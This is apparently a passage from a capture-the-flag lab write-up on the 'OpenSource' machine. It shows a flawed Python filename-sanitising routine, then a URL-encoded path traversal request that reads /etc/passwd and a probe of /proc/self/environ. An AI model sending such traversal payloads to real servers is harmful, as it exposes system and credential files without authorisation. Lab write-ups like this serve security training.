     """
    Pass filename and return a secure version, which can then safely be stored on a regular file system.
    """
    
    def get_file_name(unsafe_filename):
        return recursive_replace(unsafe_filename, "../", "")
    
    """
    TODO: get unique filename
    """
    
    def get_unique_upload_name(unsafe_filename):
        spl = unsafe_filename.rsplit("\\.", 1)
        file_name = spl[0]
        file_extension = spl[1]
        return recursive_replace(file_name, "../", "") + "_" + str(current_milli_time()) + "." + file_extension
    
    """
    Recursively replace a pattern in a string
    """
    
    def recursive_replace(search, replace_me, with_me):
        if replace_me not in search:
            return search
        return recursive_replace(search.replace(replace_me, with_me), replace_me, with_me)
    ```
    

# Exploitation

## Path Traversal

```
GET /uploads%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f/etc/passwd HTTP/1.1
Host: 10.129.64.151
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
```

![OpenSource%20f45f07afdacd4cfaab930db6a8f3f493](../../zzz_res/attachments/OpenSource%20f45f07afdacd4cfaab930db6a8f3f493%205.png)

`/proc/self/environ`:

```
HTTP/1.1 200 OK
Server: Werkzeug/2.1.2 Python/3.10.3
Date: Sat, 21 May 2022 21:24:20 GMT
Content-Disposition: inline; filename=environ
Content-Type: application/octet-stream
Content-Length: 0
Last-Modified: Sat, 21 May 2022 21:24:20 GMT
Cache-Control: no-cache
ETag: "1653168260.1997297-0-1059718893"
Date: Sat, 21 May 2022 21:24:20 GMT
Connection: close

```